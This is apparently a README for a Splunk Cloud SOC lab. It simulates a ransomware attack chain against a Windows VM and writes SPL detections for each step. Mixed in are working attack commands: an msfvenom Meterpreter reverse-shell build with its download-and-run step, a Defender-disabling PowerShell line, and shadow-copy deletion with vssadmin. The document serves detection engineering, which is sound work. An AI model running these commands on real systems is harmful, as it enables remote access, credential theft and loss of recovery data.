# Enterprise Splunk Cloud SOC & Detection Engineering Lab

[](https://www.splunk.com/en_us/products/splunk-cloud-platform.html)
[](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)
[](https://www.splunk.com/en_us/download/universal-forwarder.html)
[](https://attack.mitre.org)
[](#author)

> An end-to-end Blue Team SOC operations and Detection Engineering project demonstrating real-world ransomware attack chain simulation, SIEM gap analysis, custom SPL rule authoring, scheduled alert automation, and SOC dashboarding using **Splunk Cloud Platform**, **Microsoft Sysmon**, and **Splunk Universal Forwarder**.

---

## 📑 Table of Contents

- [Executive Overview](#-executive-overview)
- [Lab Architecture & Network Specifications](#-lab-architecture--network-specifications)
- [Real-World Attack Timeline](#-real-world-attack-timeline)
- [Attack Chain & Execution Blueprint](#-attack-chain--execution-blueprint)
  - [Phase 1: Sysmon Minifilter Driver Deployment](#phase-1-sysmon-minifilter-driver-deployment)
  - [Phase 2: Splunk Cloud Forwarder & mTLS Ingestion](#phase-2-splunk-cloud-forwarder--mtls-ingestion)
  - [Phase 3: Threat Hunting Baseline & Telemetry Verification](#phase-3-threat-hunting-baseline--telemetry-verification)
  - [Phase 4: Network Reconnaissance (Nmap Port Sweep)](#phase-4-network-reconnaissance-nmap-port-sweep)
  - [Phase 5: Payload Delivery & Reverse TCP C2](#phase-5-payload-delivery--reverse-tcp-c2)
  - [Phase 6: PowerShell Abuse & Defense Neutralization](#phase-6-powershell-abuse--defense-neutralization)
  - [Phase 7: Privilege Escalation & SAM Credential Dumping](#phase-7-privilege-escalation--sam-credential-dumping)
  - [Phase 8: Ransomware Recovery Inhibition Staging](#phase-8-ransomware-recovery-inhibition-staging)
- [SIEM Detection Gap Analysis](#-siem-detection-gap-analysis)
- [Detection Engineering & SPL Query Catalog](#-detection-engineering--spl-query-catalog)
- [Alert Engineering & Trigger Validation](#-alert-engineering--trigger-validation)
- [SOC Operations Dashboard (Classic XML)](#-soc-operations-dashboard-classic-xml)
- [MITRE ATT&CK Mapping Matrix](#-mitre-attck-mapping-matrix)
- [Indicators of Compromise (IOCs)](#-indicators-of-compromise-iocs)
- [Formal Incident Response Documentation](#-formal-incident-response-documentation)
- [Repository Structure](#-repository-structure)
- [Author](#-author)

---

## 🎯 Executive Overview

Modern ransomware syndicates—including LockBit, BlackCat (ALPHV), Akira, and WannaCry—consistently disable recovery capabilities (e.g., Volume Shadow Copies, backup catalogs, boot recovery configuration) prior to executing encryption payloads. 

Standard, out-of-the-box SIEM implementations frequently ingest raw process logs without contextual severity mapping. When administrators or adversaries invoke utilities such as `vssadmin.exe` or `wbadmin.exe`, events are ingested as low-priority operational logs, creating a dangerous blind spot in live SOC queues.

### Key Technical Achievements
1. **Full Attack Lifecycle Simulation:** Executed full adversary lifecycle from external network scanning (`T1046`), payload delivery (`T1204.002`), reverse TCP C2 establishment (`T1571`), PowerShell defense evasion (`T1059.001`, `T1562.001`), privilege escalation (`T1134`), in-memory SAM credential harvesting (`T1003`), to Volume Shadow Copy destruction (`T1490`).
2. **Hardened Cloud Telemetry Pipeline:** Deployed Microsoft Sysmon v15.21 (SwiftOnSecurity schema) and Splunk Universal Forwarder v10.4.3 on Windows 10, authenticated to **Splunk Cloud Platform** (`prd-p-o1pgk.splunkcloud.com`) via tenant certificate app (`splunkclouduf.spl`) over mTLS port 9997.
3. **Structured XML & PCRE Telemetry Engineering:** Addressed raw XML string formatting (`renderXml=true`) by authoring resilient SPL queries incorporating PCRE regular expression extraction on `_raw` event data.
4. **Detection Engineering & Alert Automation:** Engineered 6 production-grade SPL detection queries with false positive tuning and deployed 5 scheduled alerts in Splunk Cloud, capturing live attack executions.
5. **SOC Operations Dashboard:** Architected a dark-mode classic XML monitoring center featuring event velocity metrics, MITRE ATT&CK tactic breakdown, top processes, and real-time forensic event streams.
6. **Executive Incident Documentation:** Authored formal incident report in both Markdown and publication-grade PDF format ([IR-SPLUNK-2026-001.pdf](docs/INCIDENT_REPORT.pdf)).

---

## 🏗️ Lab Architecture & Network Specifications

The lab operates in an isolated virtualized network environment paired with an authenticated enterprise Splunk Cloud tenant.

```text
                  ┌──────────────────────────────────────────────┐
                  │          Splunk Cloud Platform               │
                  │        prd-p-o1pgk.splunkcloud.com           │
                  │   - Search & Reporting App                   │
                  │   - Alert Manager & Triggered Alerts         │
                  │   - SOC Threat Operations Dashboard          │
                  └──────────────────────▲───────────────────────┘
                                         │ mTLS (Port 9997)
                                         │ outputs.conf + splunkclouduf.spl
                  ┌──────────────────────┴───────────────────────┐
                  │ VMware NAT / Isolated Lab Subnet             │
                  │                                              │
  ┌───────────────┴──────────────┐              ┌────────────────┴──────────────┐
  │      Victim Workstation      │              │       Attacker Machine        │
  │     DESKTOP-F95RRHE          │◄────────────┤          parrot-htb           │
  │     Windows 10 x64           │ Port Scan    │       Parrot OS Linux         │
  │  - Sysmon v15.21             │ C2 Traffic   │  - Nmap 7.95 (Recon)          │
  │  - Splunk UF v10.4.3         │ Exploit Drop │  - Metasploit Framework v6.4  │
  │  - IP: 192.168.238.129       │              │  - IP: 192.168.238.128        │
  └──────────────────────────────┘              └───────────────────────────────┘
```

| Component | Hostname / OS | IP / MAC Address | Security & Operating Stack | Role |
| :--- | :--- | :--- | :--- | :--- |
| **Attacker Machine** | `parrot-htb` (Parrot OS) | `192.168.238.128` | Metasploit v6.4.136-dev, Nmap 7.95, Python 3 HTTP Server | Threat Emulation Node |
| **Victim Endpoint** | `DESKTOP-F95RRHE` (Windows 10 Enterprise) | `192.168.238.129`<br/>`00:0C:29:B8:EF:28` | Microsoft Sysmon v15.21, Splunk Universal Forwarder v10.4.3 | Monitored Target Workstation |
| **SIEM Platform** | Splunk Cloud SaaS | `prd-p-o1pgk.splunkcloud.com` | Search & Reporting, Alert Manager, Classic XML Dashboards | Enterprise SOC SIEM |

---

## 🕒 Real-World Attack Timeline

| Timestamp | Phase / Event Description | Observed Command / Activity | MITRE ATT&CK | Telemetry Source |
| :--- | :--- | :--- | :--- | :--- |
| **2026-10-04 14:55:20 UTC** | Sysmon kernel driver installed and operational baseline verified | `sysmon64.exe -i sysmonconfig-export.xml` | Baseline | Sysmon Event ID 16, 4 |
| **2026-10-04 15:27:16 UTC** | Splunk Universal Forwarder established mTLS connection | `splunkd.exe` $\rightarrow$ `prd-p-o1pgk.splunkcloud.com:9997` | Ingestion | `splunkd.log` |
| **2026-10-04 16:50:02 UTC** | Malicious binary staged in world-writable directory and executed | `C:\Users\Public\payload.exe` | `T1204.002` | Sysmon Event ID 1 |
| **2026-10-04 17:02:00 WAT** | Network service scanning and OS fingerprinting initiated | `sudo nmap -sV -O -p- 192.168.238.129` | `T1046` | Parrot Terminal |
| **2026-10-04 17:03:46 UTC** | Local account enumeration via policy bypass flag | `powershell -ExecutionPolicy Bypass -Command "Get-LocalUser"` | `T1059.001` | Sysmon Event ID 1 |
| **2026-10-04 17:04:10 UTC** | Endpoint defenses impaired via administrative PowerShell | `powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $true"` | `T1562.001` | Sysmon Event ID 1 |
| **2026-10-04 17:50:05 WAT** | Meterpreter reverse TCP Command & Control (C2) established | Reverse TCP socket: `192.168.238.129:51329` $\rightarrow$ `192.168.238.128:4444` | `T1571` | Metasploit Console |
| **2026-10-04 18:12:00 WAT** | In-memory privilege escalation to `NT AUTHORITY\SYSTEM` | `getsystem` (Named Pipe Impersonation Technique 1) | `T1134` | Meterpreter Session |
| **2026-10-04 18:12:30 WAT** | SAM database credential dump executed | `hashdump` (NTLM hashes extracted for Administrator, FIKIRA) | `T1003` | Meterpreter Session |
| **2026-10-05 16:00:41 UTC** | Destruction of Volume Shadow Copies (Recovery Inhibition) | `"C:\Windows\system32\vssadmin.exe" delete shadows /all /quiet` | `T1490` | Sysmon Event ID 1 |
| **2026-10-05 16:01:40 UTC** | Repeated shadow copy destruction attempt | `vssadmin delete shadows /all /quiet` | `T1490` | Sysmon Event ID 1 |
| **2026-10-05 16:38:18 UTC** | Scheduled detection alert rules configured in Splunk Cloud | Deployed 5 scheduled alerts with automated trigger actions | Engineering | Splunk Console |
| **2026-10-05 17:04:59 UTC** | High-severity alert triggered for untrusted directory execution | Rule: `Payload from Suspicious Location — T1204.002` | `T1204.002` | Splunk Activity |
| **2026-10-05 17:15:13 UTC** | Critical-severity alert triggered for ransomware staging | Rule: `CRITICAL — Ransomware Staging — T1490` | `T1490` | Splunk Activity |

---

## ⚡ Attack Chain & Execution Blueprint

### Phase 1: Sysmon Minifilter Driver Deployment
Installed Microsoft Sysmon v15.21 with SwiftOnSecurity schema to unlock granular Event ID 1 (Process Creation), Event ID 3 (Network Connection), and Event ID 10 (ProcessAccess) telemetry.

```cmd
cd C:\Sysmon
sysmon64.exe -accepteula -i sysmonconfig-export.xml
sc query sysmon64
wevtutil qe Microsoft-Windows-Sysmon/Operational /c:3 /f:text
```


*Figure 1: Windows terminal confirming Sysmon service actively running and generating operational event records on `DESKTOP-F95RRHE`.*

---

### Phase 2: Splunk Cloud Forwarder & mTLS Ingestion
Installed Splunk Universal Forwarder v10.4.3, configured `inputs.conf` with `renderXml=true`, and installed the tenant credentials application (`splunkclouduf.spl`) to authenticate with `prd-p-o1pgk.splunkcloud.com:9997`.

```ini
; C:\Program Files\SplunkUniversalForwarder\etc\system\local\inputs.conf
[WinEventLog://Application]
disabled = 0
index = main

[WinEventLog://Security]
disabled = 0
index = main

[WinEventLog://System]
disabled = 0
index = main

[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = 0
index = main
renderXml = true
```


*Figure 2: Universal Forwarder `splunk-winevtlog.exe` execution confirming event channel subscription.*

---

### Phase 3: Threat Hunting Baseline & Telemetry Verification
Validated real-time ingestion in Splunk Cloud Search & Reporting across Sysmon and Windows Security log streams.

```spl
index=main sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
| stats count by EventCode
| sort -count
```


*Figure 3: Splunk Cloud Search & Reporting validating 229 raw Sysmon events ingested within a 15-minute window.*

```spl
index=main sourcetype="WinEventLog:Security"
| stats count by EventCode
| sort -count
```


*Figure 4: Windows Security event stream verification (EventCodes 4624, 4672, 5379, 4799).*

```spl
index=main sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" "<EventID>1</EventID>"
| rex field=_raw "<Data Name='Image'>(?<Image>[^<]+)</Data>"
| stats count by Image
| sort -count
| head 20
```


*Figure 5: Normal endpoint baseline capturing legitimate OS and Forwarder processes prior to attack execution.*

---

### Phase 4: Network Reconnaissance (Nmap Port Sweep)
Disabled Tamper Protection and Real-Time Monitoring on the target VM to simulate an evasion condition.


*Figure 6: Windows Security settings confirming Real-time Protection toggled to Off.*

Launched an aggressive full-port service scan and OS fingerprinting sweep from Parrot OS:

```bash
sudo nmap -sV -O -p- 192.168.238.129
```


*Figure 7: Nmap 7.95 console output displaying open ports (5040, 5357, 7680) and fingerprinting Windows 10/11.*

Correlated network connection telemetry in Splunk Cloud:

```spl
index=main sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" "<EventID>3</EventID>"
| rex field=_raw "<Data Name='SourceIp'>(?<src_ip>[^<]+)</Data>"
| rex field=_raw "<Data Name='DestinationPort'>(?<dest_port>[^<]+)</Data>"
| stats dc(dest_port) as unique_ports count by src_ip
| where unique_ports > 1
| sort -unique_ports
```


*Figure 8: Splunk Cloud query flagging anomalous port sweep behavior from attacker node `192.168.238.128`.*

---

### Phase 5: Payload Delivery & Reverse TCP C2
Compiled 64-bit Meterpreter reverse shell binary on Parrot OS, hosted via Python HTTP server, staged on endpoint in world-writable directory (`C:\Users\Public`), and executed:

```bash
# Parrot OS - Generate & Host Payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.238.128 LPORT=4444 -f exe -o payload.exe
python3 -m http.server 8080

# Windows 10 - Ingress Download & Launch
Invoke-WebRequest -Uri "http://192.168.238.128:8080/payload.exe" -OutFile "C:\Users\Public\payload.exe"
C:\Users\Public\payload.exe
```


*Figure 9: Metasploit multi/handler receiving reverse TCP connection and opening Meterpreter Session 1 from `192.168.238.129:51329`.*

Detected dropped binary execution in Splunk Cloud:

```spl
index=main sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" "<EventID>1</EventID>"
| rex field=_raw "<Data Name='Image'>(?<Image>[^<]+)</Data>"
| rex field=_raw "<Data Name='CommandLine'>(?<CommandLine>[^<]+)</Data>"
| rex field=_raw "<Data Name='ParentImage'>(?<ParentImage>[^<]+)</Data>"
| rex field=_raw "<Data Name='User'>(?<User>[^<]+)</Data>"
| search (Image="*\\Users\\Public\\*" OR Image="*\\Temp\\*" OR Image="*\\AppData\\Local\\Temp\\*") NOT Image="*\\Windows\\*"
| table _time, host, User, Image, CommandLine, ParentImage
```


*Figure 10: Splunk query isolating `C:\Users\Public\payload.exe` execution initiated under the `FIKIRA` user context.*

---

### Phase 6: PowerShell Abuse & Defense Neutralization
Adversary dropped into interactive shell to execute reconnaissance and defense evasion cmdlets:

```cmd
powershell -ExecutionPolicy Bypass -Command "Get-LocalUser"
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $true"
```

